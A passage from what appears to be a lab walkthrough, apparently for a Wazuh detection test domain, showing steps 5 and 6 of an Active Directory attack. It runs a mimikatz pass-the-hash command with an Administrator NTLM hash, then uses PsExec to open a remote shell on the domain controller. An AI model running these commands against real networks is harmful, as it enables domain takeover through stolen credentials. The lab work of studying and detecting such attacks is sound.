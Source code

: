 5. **Perform the Pass-the-Hash Attack:**

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:wazuhtest.com /ntlm:<NTLM hash>
```

* Replace **<NTLM hash>** with the extracted hash of the **Administrator** account.
* This command opens a new command prompt authenticated as the target user without requiring the plaintext password.

![Pass-the-Hash Attack](/assets/image-20.png)

6. **Reconnect to the Domain Controller:**

```powershell
.\PsExec.exe \\windows-server.wazuhtest.com cmd
```

* Reattempt the connection to the domain controller.
* This time, the command should succeed, providing a remote shell with the privileges of the compromised domain administrator account.

![Successful Domain Controller Access](/assets/image-21.png)
